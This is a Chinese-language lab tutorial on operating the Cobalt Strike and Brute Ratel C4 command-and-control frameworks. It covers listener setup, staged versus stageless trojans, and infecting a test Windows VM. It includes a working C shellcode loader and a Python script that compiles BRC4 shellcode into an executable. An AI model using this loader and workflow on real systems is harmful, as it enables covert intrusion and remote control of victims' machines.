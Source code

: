 # CS 与 BRC4 使用指南

Cobalt Strike 与 Brute Ratel C4 都是 C2 框架，其基本功能是生成木马，并允许黑客对这些部署在靶机上，并且与 C2 服务器建立连接的木马进行操作。为了开发一个木马框架，我们有必要先体验一下 Cobalt Strike 或者 Brute Ratel C4 的使用，了解其大致特点。

## 一、Cobalt Strike

### 0x00 启动 teamserver

首先查看本机 IP 地址：

![1](.\image\1.png)

然后使用以下命令来启动 teamserver

![2](.\image\2.png)

其中，123456 是黑客客户端登入时所用的密码

### 0x01 开启黑客客户端

直接执行 cobaltstrike 脚本即可启动黑客客户端

![3](.\image\3.png)

这里的 Host 就是我们启动 teamserver 时输入的那个 IP 地址，也  Password 就是 123456，User 可以随便取

 Cobalt Strike 启动后的面板如下所示：

![4](.\image\4.png)

### 0x02 创建 Listener

Listener 就是用来远程与木马交互的东西。

![5](.\image\5.png) ![6](.\image\6.png) 

Listener 的表单项如下：

![7](.\image\7.png)

### 0x03 生成木马并感染 Windows

![8](.\image\8.png)

对于 Windows Executable 和 Windows Executable(S)，它们虽然生成的都是 exe 可执行文件，但它们实际上存在着显著的差异。这里的 (S) 实际上是 Stageless 的意思。
Windows Executable 相对于 Windows Executable(S)，文件体积较小，因为它**并不包含真正的木马代码**。当它被部署在宿主机上后，它会尝试与 C2 服务端（也就是我们之前启动的 teamserver）上的 Listener 进行连接，如果连接成功，它就会向 C2 请求真正的木马代码，然后 C2 将会向它发送完整的木马代码，最终完成木马的植入，这个过程就被称作**Stage**
而 Windows Executable(S) 本身就是完整的木马，因此不需要向 C2 请求真正木马的下载。在这里，“真正的木马代码”实际上就是那些用来实现木马具体功能的代码，例如文件目录读取、截屏、读取 ARP 表等功能，在实践中往往优先选择植入具有 Stage 机制的小木马。

在这里，我们选择生成 Windows Executable，其表单如下：

![9](.\image\9.png)

选择一个 Listener 后，点击 Generate 即可生成木马程序文件。

在一个能与 Kali 通往的 Windows 10 虚拟机中双击它运行即可

![10](.\image\10.png) ![11](.\image\11.png)

在 Cobalt strike 的黑客面板中也可以观察到木马的上线

![12](.\image\12.png) 点击 Interact 即可与木马进行交互

尝试使用一个 ls 命令：

![13](.\image\13.png)

## 二、Brute Ratel C4

BRC4 与 CS 的架构非常相似。

### 0x00 启动 C2 服务器

![14](.\image\14.png)

其中，`-ratel` 参数表示以 C2 服务端模式启动，`-a` 是用户名，`-p` 是密码，`-h` 是 ip+端口，`-sc` 和 `-sk` 是在进行任何 SSL 连接（无论是黑客接入 C2 服务端还是与木马交互时）使用的证书和私钥（可以自己使用 OpenSSL 生成自签名证书）

### 0x01 开启黑客客户端

![15](.\image\15.png)

登入后的面板如下所示：

![16]( .\image\16.png)

### 0x02  创建 Listener

![17](.\image\17.png)

创建 Listener 时的表单项如下所示：

![18](.\image\18.png)

其中，Rotational hosts 是木马上线时尝试连接的 IP 地址，Listener bind host 是 Listener 的真实 IP 地址，也就是说，部署木马时，可以选择对木马的网络路径进行中转，利用诸如 SSH 转发等手段。Port 是木马上线时连接的端口，这里与木马通信使用的协议是 HTTPS，因此端口选择 443。Useragent, header, URI 则是一些用来伪装成 HTTP 协议的东西，SSL 表示与木马交互时是否使用 SSL 加密，如果选择 Yes，则实际的通信可以看作是 HTTPS，否则就是 HTTP。

### 0x03 生成木马并感染 Windows

与 Cobalt Strike 不同，Brute Ratel C4 的 Stage 模式需要手动开启：

![19](.\image\19.png)

同时也可以选定传输的 Beacon（即所谓“完整的木马”）是哪个 Listener 的木马，这就是说，一个 Stage 模式的木马，与它部署在靶机上之后下载过来的完整木马，所连接的 Listener 可以是不同的。

![20](.\image\20.png)

跟着便来生成 Stage 模式的 Payload

![21](.\image\21.png)

这里我们选择的是 `RtlExitUserThread`

与 Cobalt Strike，BRC4 的 stage 模式并不直接生成 exe 可执行文件，而是一段 shellcode，是一段二进制形式的、位置无关（即无论将其加载到什么地址上，它都可以正确执行）的机器指令。因此，我们需要手动将其打包成一个可执行文件。

首先在一个文件夹下创建一个 `shellcode.c` 文件：

```c
#include "shellcode.h"

int main() {
    LPVOID shellcode_ptr = VirtualAlloc(NULL, SHELLCODE_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_ptr, SHELLCODE_BUFFER, SHELLCODE_SIZE);
    ((void(*)())shellcode_ptr)();
}
```

然后将 BRC4 生成的这个 `stage_x64_rtl.bin` 放入同目录，然后在这个目录下执行以下脚本：

```python
import os

def headerFileContent(shellcode):
    code =  '#include<windows.h>\n'
    code += '#include<stdio.h>\n\n'
    code += 'int SHELLCODE_SIZE = {};\n\n'.format(len(shellcode))
    code += 'unsigned char SHELLCODE_BUFFER[] = \"'
    for i in shellcode:
        c = hex(i)[2:]
        if len(c) == 1:
            c = '0' + c
        c = c.upper()
        code += '\\x' + c
    code += '\";'
    return code

def main():
    f = open('./stage_x64_rtl.bin', 'rb')
    shellcode = f.read()
    f.close()

    f = open('./shellcode.h', 'w')
    f.write(headerFileContent(shellcode))
    f.close()
    
    os.system('x86_64-w64-mingw32-gcc -o badger.exe shellcode.h shellcode.c')

if __name__ == '__main__':
    main()
```

在 windows 靶机上执行生成出来的 `badger.exe` 

![22](.\image\22.png)

可在 BRC4 面板中观察到木马的上线：

![4](.\image\23.png)

尝试对其执行 ls 命令：

![24](.\image\24.png)